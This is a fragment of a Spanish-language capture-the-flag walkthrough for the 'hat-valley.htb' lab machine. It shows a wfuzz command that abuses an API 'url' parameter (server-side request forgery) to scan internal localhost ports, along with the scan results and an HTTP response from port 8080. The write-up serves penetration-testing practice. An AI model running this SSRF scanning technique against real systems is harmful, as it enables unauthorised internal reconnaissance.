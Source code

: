 ```null
</head>
<body>
</body>
</html>
```

Utilizo ```wfuzz``` para hacer un PortDiscovery

```null
wfuzz -c --hh=0 -t 200 -z range,1-65535 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000080:   200        8 L      13 W       132 Ch      "80"                                                                                                                                            
000003002:   200        685 L    5834 W     77002 Ch    "3002"                                                                                                                                          
000008080:   200        54 L     163 W      2881 Ch     "8080"                                                                                                                                          

Total time: 0
Processed Requests: 65535
Filtered Requests: 65532
Requests/sec.: 0
```

El 8080 contiene lo siguiente

```null
HTTP/1.1 200 OK

Server: nginx/1.18.0 (Ubuntu)

Date: Thu, 23 Mar 2023 17:13:24 GMT

Content-Type: text/html; charset=utf-8

Connection: close

x-powered-by: Express

access-control-allow-origin: *

etag: W/"b41-tn8t3x3qcvcm126OQ/i0AXwBj8M"

Content-Length: 2881



<!DOCTYPE html>
<html lang="">
```